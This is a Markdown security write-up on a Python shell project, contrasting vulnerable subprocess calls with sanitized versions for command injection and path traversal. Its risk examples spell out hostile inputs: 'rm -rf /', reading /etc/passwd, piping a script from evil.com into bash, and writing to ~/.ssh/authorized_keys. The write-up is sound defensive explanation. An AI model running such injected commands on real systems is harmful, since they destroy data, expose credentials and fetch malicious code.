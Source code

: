# Security Analysis: Original vs Secure Shell Implementation

This document analyzes the security vulnerabilities in the original shell implementation (`test/example.py`) and explains the security improvements made in the new version (`main.py`).

## Critical Security Issues in Original Code

### 1. **Command Injection Vulnerabilities**

#### Original Code Issues:
```python
# VULNERABLE: Direct shell execution with user input
sp.run(commands, shell=True)
sp.run(f"{ls_cmd} {commands[1]}", shell=True)
sp.Popen(new_command, stdout=file, shell=True).communicate()
```

**Risk**: Attackers can inject arbitrary commands:
- Input: `ls; rm -rf /` → Executes both `ls` and `rm -rf /`
- Input: `echo "test"; cat /etc/passwd` → Executes multiple commands
- Input: `ls && curl evil.com/steal.sh | bash` → Downloads and executes malicious scripts

#### Security Fix Applied:
```python
# SECURE: Sanitized command execution without shell=True
def sanitize_command(cmd: str) -> str:
    allowed_chars = string.ascii_letters + string.digits + '_-.'
    return ''.join(c for c in cmd if c in allowed_chars)

sp.run(sanitized_argv, check=False, stdout=stdout)  # shell=False by default
```

### 2. **Path Traversal Vulnerabilities**

#### Original Code Issues:
```python
# VULNERABLE: No path validation
os.chdir(commands[1])  # Can navigate anywhere: ../../etc
with open(filename, "w") as file:  # Can overwrite any file: /etc/passwd
```

**Risk**: Attackers can access/modify files outside intended directories:
- `cd ../../../etc` → Access system directories
- `ls > /etc/passwd` → Overwrite critical system files
- `echo "malicious" > ~/.ssh/authorized_keys` → Compromise SSH access

#### Security Fix Applied:
```python
# SECURE: Path validation and sanitization
def sanitize_path(path: str) -> str:
    resolved = Path(path).resolve()
    # Validates against dangerous path traversal
    
def validate_redirect_path(path: str) -> str:
    # Prevents overwriting system files
    dangerous_paths = ['/etc', '/bin', '/usr/bin', '/sys', '/proc']
    if IS_WINDOWS:
        dangerous_paths.extend(['C:\\Windows', 'C:\\System32'])
```
